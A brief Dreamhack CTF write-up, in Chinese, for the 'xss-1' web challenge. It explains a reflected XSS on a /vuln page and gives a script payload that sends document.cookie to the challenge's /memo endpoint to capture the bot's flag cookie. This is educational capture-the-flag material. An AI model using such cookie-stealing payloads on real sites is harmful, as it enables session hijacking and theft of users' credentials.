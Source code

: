 ```yaml
---
title: xss-1
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# xss-1

題目

> 여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
> XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.  
> 플래그 형식은 DH{...} 입니다.

進入 `/vuln` 頁面可以發現 param 可以直接輸入 html 標籤並觸發 alert

![vuln](/assets/dreamhack/xss-1/image.png)

`/flag` 頁面可以提交 param

![param](/assets/dreamhack/xss-1/image-1.png)

`/memo` 會存出現過的文字

由題目給的 read_url 函式可知要將 cookies 傳到 `/memo`

提交 payload

```javascript
<script>
  location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;
</script>
```

![flag](/assets/dreamhack/xss-1/image-2.png)
